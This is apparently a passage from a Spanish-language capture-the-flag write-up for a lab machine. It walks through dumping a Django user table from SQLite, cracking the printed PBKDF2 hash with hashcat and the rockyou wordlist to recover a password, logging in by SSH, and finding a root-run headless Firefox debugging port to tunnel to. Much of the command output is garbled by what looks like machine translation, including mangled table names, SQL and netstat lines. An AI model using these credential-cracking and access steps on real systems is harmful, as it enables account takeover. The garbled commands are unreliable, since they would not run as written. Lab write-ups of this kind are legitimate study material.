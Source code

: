 encontramos esto /usr/src/app ojo revisen bien la carpeta es algo interesante lo que puedo decir es se vienen cositas

```
sqlite3 db.sqlite3
SQLite versión 3.45.1 2024-12-11 12:05:40
Introduzca ".help" para las pistas de uso.
sqlite. .tables
auth-group djanscontenttype       
authgroup.permissions django-migrations         
auth-perperpermission django.            
tienda de usuario.               
auth-user-groups store-product             
auth-user-user-permissions store.storemessage        
django.admin.log store-storeuser           
sqlite seleccione * de auth-user;
2opbkdf2-sha256$600000$y1tAjUmiqLtSdpL2wL2h56$61u2yMfKoYyYYXfX4k/0hTc6YXRXXRXXXOH4LYVsEXo=2023-06-06 17:34:34:56.520750-1-morty-1-1-2023-06-06 17:32:24
sqlite.
```

`hashcat -m 10000 hash.txt /usr/share/wordlists/rockyou.txt
:jonasbrothers
`
## ssh morty

es mas que claro que nos conectamos con las credenciales que disponemos
ssh morty@magicgardens.htb

despues de una busqueda enotra mos esto proceso interesante en el puerto 44351: depuración remota

```
root        2028  3.0 11.7 2931088 471084 ?      Sl   11:31   4:05 firefox-esr --marionette --headless --remote-debugging-port 34965 --remote-allow-hosts localhost -no-remote -profile /tmp/

```
```

morty@magicgardens:$ netstat -tlnp
(No se pudieron identificar todos los procesos, info de proceso no propiedad
 no se mostrará, usted tendría que ser raíz para ver todo.)
Conexiones de Internet activa (sólo servidores)
Proto Recv-Q Send-Q Dirección local Dirección extranjera Nombre PID/Programa de PID/Programa    
tcp 0 0 0.0.0.0:80 0.0..0.0:* LISTEN -                   
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -                   
tcp 0 0 0.0.0.0:25 0.0.0.0:* LISTEN -                   
tcp 0 0 127.0.0.1:51227 0.0.0.0:* LISTEN -                   
tcp 0 0 127.0.0.1:34965 0.0.0.0:* LISTEN -                   
tcp 0 0 0.0.0.0:5000 0.0.0.0:* LISTEN -                   
tcp 0 0 0.0.0.0:1337 0.0.0.0:* LISTEN -                   
tcp 0 0 127.0.0.1:8000 0.0.0.0:* LISTEN -                   
tcp 0 0 127.0.0.1:40733 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN -                   
tcp 0 0 127.0.0.1:38431 0.0.0.0:* LISTEN -                   
tcp6 0 0 :::80 :: *                    
tcp6 0 0 :::22 :: * LISTEN -                   
tcp6 0 0 :::25 :: * LISTEN -                   
tcp6 0 0 :::5000 *: LISTEN -

```
ahora hacemos un para no usar chisel túnel SSH con redirección de puertos local o port forwarding local.

